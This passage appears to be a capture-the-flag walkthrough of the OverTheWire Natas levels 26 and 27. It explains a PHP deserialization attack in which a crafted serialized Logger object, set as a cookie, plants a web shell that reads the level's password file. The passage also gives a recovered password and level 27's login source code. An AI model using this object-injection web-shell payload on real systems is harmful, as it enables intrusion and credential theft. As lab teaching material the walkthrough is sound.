 ```php
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
```

If this function is passed serialized the `__destruct` function will be called. That function will write into a log file which we can access later to get the password. So we serialize it.

```
O:6:"Logger":3:{s:15:"LoggerlogFile";s:13:"/img/file.php";s:15:"LoggerinitMsg";s:48:"<?php system('cat etc/natas_webpass/natas27');?>";s:15:"LoggerexitMsg";s:48:"<?php system('cat etc/natas_webpass/natas27');?>";}
```

We base64 encode it and set it as the cookkie. then we go to img/file.php and we get the password

password : **55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ**

### <a id="27">natas27</a>

Source code : 

```php+HTML
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas27", "pass": "<censored>" };</script></head>
<body>
<h1>natas27</h1>
<div id="content">
<?

// morla / 10111
// database gets cleared every 5 min 


/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
function checkCredentials($link,$usr,$pass){
 
    $user=mysql_real_escape_string($usr);
    $password=mysql_real_escape_string($pass);
    
    $query = "SELECT username from users where username='$user' and password='$password' ";
    $res = mysql_query($query, $link);
    if(mysql_num_rows($res) > 0){
        return True;
    }
    return False;
}
```